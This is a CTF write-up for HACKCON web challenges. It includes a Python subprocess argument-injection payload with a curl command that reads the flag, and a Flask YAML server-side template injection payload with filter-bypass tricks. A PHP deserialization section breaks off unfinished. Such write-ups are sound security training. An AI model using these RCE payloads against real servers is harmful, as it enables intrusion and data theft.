 --------------

### HACKCON CTF 

----------------

![image](https://github.com/user-attachments/assets/2a3fdfd1-c616-4f65-9554-b4e9018fe752)

----------------

### Challenges-:

----------------

- Web-:
  - Processed Subscription
  - Flask ain't no markup language
  - Zeezy's notes

------------------

### Web

------------------

### Processed Subscription

------------------

![image](https://github.com/user-attachments/assets/edee15aa-4195-4a00-aa61-bb9f8c605ead)

------------------

- Source code analysis, code-:

```python
@app.route('/run_file', methods=['GET'])
def run_code():
    filename = request.args.get("code")
    if filename.endswith(".py"):
       response = subprocess.Popen(["python3",filename],stdout=-1).communicate()
       response =  response[0].decode()
       print(response)
    else:
        response = "Invalid file type"
    return jsonify({'result': response})
```
- The route `run_file` is vulnerable to argument injection.An attacker can control the filename variable and trigger `argument injection` to Remote Code Exection on the server.
- Testing it on a python interpreter before triggering it on the server.

![image](https://github.com/user-attachments/assets/104066ba-c520-4d52-aa79-4a9613c00ccc)

- Normally, Python should only execute a file in this state and should not be vulnerable to `argument injection`.
- Explaining the payload-:

```python3
-c\neval(\"__import__('os').system('id')\")
```

- The `-c` switch triggers the python interpreter, then we use `\n` to slip to the next line.Then, in the next line, we activate our payload.If we try it with the python interpreter, it'll be something like this.

![image](https://github.com/user-attachments/assets/f3f2a683-94ad-4c3e-9a4d-84e2480f27a4)

- Final Payload-:
```
-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py
```

- Flag-: ```gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}```

```zsh
curl -G https://chall1.pxxl.xyz/run_file -d "code=-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py"
{"result":"gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}\n"}
```

----------------

### Flask ain't no Markup Language

---------------

![image](https://github.com/user-attachments/assets/5fa6bf38-41f2-42f1-9866-0447c27c6504)

---------------

- Vulnerability is Flask Server Side Template Injection in `yaml`.While executing it, our payload will be place in yaml syntax e.g

```yaml
x: "{{7*7}}"
```

- Final payload-:

```
x: "{{config.__init__.__globals__.__getitem__('__BUILTINS__'.lower()).__getitem__('__IMPORT__'.lower())('OS'.lower()).popen('base64 /app/fl??/*.txt | base64 -d').read()}}"
```

- You can bypass the filtered strings by setting it to uppercase and passing it to python's lower function as soon as it is parsed.Lastly. the word `flag` gets filtered which you can bypass with regex e.g `fl?? should match flag`.
- Flag-: ```gdscCTF{4c4dae5677c29dcdcd06ba88565602fa}```

![image](https://github.com/user-attachments/assets/9bb1bb33-8913-4bf3-be94-5e2f4796dfe5)

----------------

### Zeezy's notes

-----------------

- Vulnerability-: Php Insecure Deserialization(Privesc to Remote Code Execution)
- 



